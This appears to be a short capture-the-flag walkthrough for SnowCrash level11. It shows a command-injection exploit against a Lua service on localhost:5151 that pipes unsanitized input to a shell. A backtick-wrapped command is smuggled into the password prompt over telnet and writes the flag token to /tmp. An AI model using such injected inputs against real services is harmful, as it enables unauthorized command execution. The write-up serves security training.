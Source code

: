 There is a lua script in our home that listen on `localhost:5151`.

The string received is then echoed and piped to `sha1sum` to do whatever.

We can run the command as the input is not sanitized `getflag`.

```bash
level11@SnowCrash:~$ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: `getflag` > /tmp/token
Erf nope..
Connection closed by foreign host.
```

```bash
cat /tmp/token
```